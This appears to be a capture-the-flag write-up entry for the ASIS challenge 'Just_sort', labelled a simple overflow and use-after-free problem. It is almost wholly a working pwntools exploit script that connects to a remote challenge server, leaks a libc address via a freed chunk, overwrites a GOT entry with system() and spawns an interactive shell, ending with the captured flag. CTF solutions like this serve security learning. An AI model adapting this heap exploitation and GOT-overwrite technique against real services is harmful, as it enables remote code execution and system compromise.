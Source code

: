 ### Just_sort (kevin47)

* Simple overflow and UAF problem

```python
#!/usr/bin/env python2

from pwn import *
from IPython import embed
from ctypes import *
import re

context.arch = 'amd64'

r = remote('159.65.125.233', 6005)

def insert(n, s):
    r.sendlineafter('>', '1')
    r.sendlineafter('>', str(n))
    r.sendafter('>', s)

def edit(h, p, s):
    r.sendlineafter('>', '2')
    r.sendlineafter('>', str(h))
    r.sendlineafter('>', str(p))
    r.sendafter('>', s)

def printt():
    r.sendlineafter('>', '3')
    return r.recvuntil('---', drop=True)

def search(n, s):
    r.sendlineafter('>', '4')
    r.sendlineafter('>', str(n))
    r.sendafter('>', s)

def delete(h, p):
    r.sendlineafter('>', '5')
    r.sendlineafter('>', str(h))
    r.sendlineafter('>', str(p))

insert(10, 'a')
insert(10, 'b')
delete(1, 0)
search(10, flat(
    [0]*3, 0x21,
    [0]*3, 0x21,
    0, 0x602018,
))
x = printt()
xx = re.findall('0: "(.*)"', x)[0]
libc = u64(xx.ljust(8, '\x00')) - 0x844f0
print 'libc:', hex(libc)
system = libc+0x45390
edit(1, 0, flat(system))
insert(40, '/bin/sh\x00')
delete(4, 0)


r.interactive()
# ASIS{67d526ef0e01f2f9bdd7bff3829ba6694767f3d1}
```

